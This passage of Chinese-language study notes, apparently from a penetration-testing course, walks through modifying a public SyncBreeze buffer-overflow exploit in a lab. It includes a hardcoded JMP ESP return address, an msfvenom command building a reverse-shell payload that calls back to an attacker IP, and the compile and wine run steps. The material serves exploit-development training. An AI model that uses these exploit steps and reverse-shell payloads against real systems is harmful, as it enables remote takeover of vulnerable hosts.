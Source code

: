 如果我们已经从上一个模块获得了有效的利用，我们可以用我们自己的返回地址替换目标返回地址，这是有效的。

```
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```

如果我们没有以前开发的漏洞的返回地址，我们有一些选择。第一个也是最推荐的选项是在本地重新创建目标环境，并使用调试器确定此地址。这是我们开发原始利用的过程。

如果不能这样做，那么我们可以使用来自其他公开可用的漏洞的信息来获得一个可靠的返回地址，该地址将匹配我们的目标环境。例如，如果我们需要Windows Server 2003 SP2上的JMP ESP指令的返回地址，我们可以在利用针对该操作系统的不同漏洞的公共利用中寻找它。这种方法不太可靠，并且根据操作系统所安装的保护措施而变化很大。

作为一种替代方法，我们可以直接从目标机器获得一个返回地址。如果我们获得我们的目标和非特权用户想要运行一个利用,提升我们的特权,我们可以将我们感兴趣的dll复制到我们的进攻机器和使用各种工具,如反汇编器甚至msfpescan Metasploit框架来获得一个可靠的返回地址。

### 改变Payload

继续分析我们的C利用，我们注意到shellcode变量似乎保存了有效负载。因为它是以十六进制字节存储的，所以我们不能轻易确定它的用途。作者给出的唯一提示是引用了一个NOP滑梯，它是shellcode变量的一部分:

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606183556291-9eec49fa-6976-4a57-9262-5b16be8a330e.png)

由于我们已经确定了坏字符从我们的研究在以前的利用，我们可以用msfvenom产生我们自己的payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.211.55.4 LPORT=443 EXITFUNC=thread -f c x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606183781477-a01e99f5-dcaa-4a01-879e-a2f8f95f1053.png)

然后把源码中的shellcoode替换成这一串就可以了，那一串NOP SLIDE不要删掉，记得把request的请求中的Host和Referer的IP也改一下：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606184236505-9470625e-8722-4817-b2b4-b3ece4d3839b.png)

然后就是将修改完毕的的源码重新编译一下：

```
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

现在我们有了一个更新的、清除编译漏洞，我们可以对其进行测试。我们将把调试器附加到沙箱测试目标上的SyncBreeze服务上，并在JMP ESP指令的内存地址上设置一个断点:

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606184524507-36326fea-7fcf-4e68-8c7c-7d5356284f45.png)

一旦在调试器中设置了断点，我们就可以让应用程序正常运行，并尝试从Kali Linux执行我们的利用。

因为这个二进制文件是交叉编译在Windows上运行的，所以我们不能简单地在Kali Linux机器上运行它。为了运行这个Windows二进制文件，我们将使用wine，这是一个兼容层，能够运行Windows应用程序在几个操作系统，如Linux, BSD和MacOS:

```
wine syncbreeze_exploit.exe
```

执行这个指令最先开始可能会出错误，提示没有安装wine32，然后用 `sudo apt-get install wine32` 安装一下，但是安装过程中会出现依赖问题，用 `sudo apt-get --fix-broken install` 修复一下，一次可能不行，多执行几次，然后就一步步根据提示来就行，最后重新安装一下wine32，就不会报错了。安装完之后在用wine运行这个软件。

第一次运行，我们会发现产生崩溃了，但是崩溃地址是不对，你会发现差了一个字节的地址。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606189691645-e0f9b02c-5aa8-4735-85bd-33db3bf97c69.png)
